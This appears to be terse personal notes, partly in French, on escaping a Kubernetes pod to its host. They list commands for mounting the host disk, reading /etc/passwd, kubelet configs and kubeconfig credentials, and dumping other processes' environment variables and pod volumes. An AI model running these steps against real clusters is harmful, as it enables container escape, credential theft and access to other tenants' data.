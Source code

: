 https://www.urlencoder.org

cat /etc/os-release
cat /helloworld/confidential.txt


## in the k8s pod
`ps` lister all process in the host

`ls /dev` lister les devices

`mkdir -p /mnt/host`
`mount /dev/nvme0n1p1 /mnt/host` mounter les fichiers du host 

`cat /proc/cpuinfo` cpu info
`cat /proc/meminfo` memory info

`cat /etc/hostname`
`cat /etc/passwd`

### in the host
`cat /mnt/host/etc/hostname`
`cat /mnt/host/etc/passwd`
`cat /etc/os-release`

### info cluster
`cat etc/kubernetes/kubelet/kubelet-config.json`
`cat var/lib/kubelet/kubeconfig`

### other pods
`cat /proc/<pid>/environ | tr '\0' '\n'`
`less /mnt/host/var/lib/kubelet/pods/`